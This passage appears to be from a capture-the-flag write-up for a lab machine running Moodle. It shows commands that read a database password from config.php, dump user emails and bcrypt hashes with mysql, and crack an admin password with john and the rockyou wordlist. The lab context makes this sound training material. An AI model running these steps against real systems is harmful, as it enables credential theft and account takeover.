 * Moodle Database password in file \`/usr/local/www/apache24/data/moodle/config.php\` :

  ```plaintext
  $CFG->dbtype    = 'mysqli';
  $CFG->dbhost    = 'localhost';
  $CFG->dbuser    = 'moodle';
  $CFG->dbpass    = 'PlaybookMaster2020';
  'dbport' => 3306,
  ```

Later I have found that we were only missing some paths in PATH finding `curl` installed. This was also needed to find `mysql` binary to dump the database credentials, as command line below, which was required once I wasn't in an interactive tty

```bash
$ find / -type f 2>/dev/null | grep -e "wget$" -e "curl$" -e "mysql$"
/usr/local/bin/curl
/usr/local/bin/mysql
/usr/local/share/bash-completion/completions/wget
/usr/local/share/bash-completion/completions/curl
/usr/local/share/bash-completion/completions/mysql
/usr/local/share/zsh/site-functions/_curl
/var/mail/mysql
```

Dumping the creds was possible with the command below:

```bash
$ /usr/local/bin/mysql -u moodle --password=PlaybookMaster2020 -e "use moodle; select email,username,password from mdl_user; exit" | grep -v 'student.'
mysql: [Warning] Using a password on the command line interface can be insecure.
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'exit' at line 1
email   username        password
root@localhost  guest   $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2
jamie@staff.schooled.htb        admin   $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
higgins_jane@staff.schooled.htb higgins_jane    $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2
phillips_manuel@staff.schooled.htb      phillips_manuel $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG
carter_lianne@staff.schooled.htb        carter_lianne   $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe
```

Based on the hashes, created a file in the format username:hash and then ran `john`, where was obtained the password for account `jamie` as below

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt accounts.txt                                                                 Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (jamie)
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```
